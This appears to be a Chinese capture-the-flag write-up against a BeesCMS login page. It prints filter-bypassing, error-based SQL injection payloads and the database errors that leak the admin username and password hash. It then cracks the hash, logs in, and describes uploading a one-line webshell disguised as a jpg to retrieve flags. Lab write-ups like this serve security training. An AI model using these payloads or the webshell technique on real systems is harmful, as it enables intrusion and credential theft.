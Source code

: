 操作数据库失败XPATH syntax error: '~bs_admin'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select admin_name from beescms.bees_admin limit 0,1)),1) #' limit 0,1

### 用户名bs_admin

没有别的用户了

user=admin' an and d updatexml(1,concat(0x7e,(selselectect admin_password fro from m beescms.bees_admin limit 0,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~ae3700364f2111b2cea75d8e19d2331'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,(select admin_password from beescms.bees_admin limit 0,1)),1) #' limit 0,1

密码ae3700364f2111b2cea75d8e19d2331

尝试发现密码不正确

user=admin' an and d updatexml(1,concat(0x7e,right((selselectect admin_password fro from m beescms.bees_admin limit 0,1),20),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' at line 1<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,right((select admin_password from beescms.bees_admin limit 0,1),20),1) #' limit 0,1

user=admin' an and d updatexml(1,concat(0x7e,right((selselectect admin_password fro from m beescms.bees_admin limit 0,1),20)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

操作数据库失败XPATH syntax error: '~11b2cea75d8e19d2331e'<br>sql:select id,admin_name,admin_password,admin_purview,is_disable from bees_admin where admin_name='admin' and updatexml(1,concat(0x7e,right((select admin_password from beescms.bees_admin limit 0,1),20)),1) #' limit 0,1

密码ae3700364f2111b2cea75d8e19d2331e

user=bs_admin&password=ae3700364f2111b2cea75d8e19d2331e&code=5e7c&submit=true&submit.x=32&submit.y=39

输入的密码不正确

user=admin' an and d updatexml(1,concat(0x7e,(selselectect admin_password fro from m beescms.bees_admin limit 1,1)),1) #&password=123456&code=5e7c&submit=true&submit.x=32&submit.y=39

也没有别的密码了

密码ae3700364f2111b2cea75d8e19d2331e

可能是md5加密

解密以后得到aabbccdd@123

user=bs_admin&password=aabbccdd@123&code=2811&submit=true&submit.x=32&submit.y=39

成功登录

进入后台以后上传图片传一句话木马，抓包把格式改为jpg成功上传，然后用蚁剑连

在里面找到了flag2和flag4

在备份文件内容中找到了flag3

